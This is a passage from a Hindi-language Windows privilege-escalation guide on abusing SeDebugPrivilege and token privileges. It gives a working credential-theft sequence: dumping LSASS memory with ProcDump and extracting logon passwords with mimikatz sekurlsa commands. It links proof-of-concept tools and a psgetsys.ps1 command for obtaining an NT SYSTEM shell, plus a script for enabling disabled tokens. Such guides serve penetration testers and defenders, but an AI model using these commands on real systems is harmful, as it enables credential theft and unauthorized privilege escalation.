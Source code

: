यह विशेषाधिकार **अन्य प्रक्रियाओं को डीबग करने** की अनुमति देता है, जिसमें मेमोरी में पढ़ने और लिखने की क्षमता शामिल है। इस विशेषाधिकार के साथ विभिन्न मेमोरी इंजेक्शन के लिए रणनीतियाँ लागू की जा सकती हैं, जो अधिकांश एंटीवायरस और होस्ट प्रवेश निवारण समाधानों को टाल सकती हैं।

#### मेमोरी डंप

आप [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) का उपयोग कर सकते हैं [SysInternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) से **किसी प्रक्रिया की मेमोरी को कैप्चर करने** के लिए। विशेष रूप से, यह **स्थानीय सुरक्षा प्राधिकरण उपस्थिति सेवा ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service))** प्रक्रिया के लिए लागू हो सकता है, जो एक उपयोगकर्ता ने सफलतापूर्वक सिस्टम में लॉगिन किया हो तो उपयोगकर्ता क्रेडेंशियल्स को संग्रहीत करने के लिए जिम्मेदार है।

फिर आप इस डंप को मिमीकेट्ज में लोड कर सकते हैं ताकि पासवर्ड प्राप्त कर सकें:
```
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```
#### RCE

यदि आप `NT SYSTEM` शैल प्राप्त करना चाहते हैं तो आप इस्तेमाल कर सकते हैं:

* ****[**SeDebugPrivilegePoC**](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)****
* ****[**psgetsys.ps1**](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1)****
```powershell
# Get the PID of a process running as NT SYSTEM
import-module psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>)
```
## विशेषाधिकारों की जाँच
```
whoami /priv
```
**टोकन जो अक्षम दिखाई देते हैं** को सक्रिय किया जा सकता है, आप _सक्रिय_ और _अक्षम_ टोकन का दुरुपयोग कर सकते हैं।

### सभी टोकन सक्रिय करें

यदि आपके पास अक्षम टोकन हैं, तो आप [**EnableAllTokenPrivs.ps1**](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) स्क्रिप्ट का उपयोग करके सभी टोकन को सक्रिय कर सकते हैं:
```powershell
.\EnableAllTokenPrivs.ps1
whoami /priv
```
या **स्क्रिप्ट** इस [**पोस्ट**](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/) में एम्बेड करें।

## तालिका
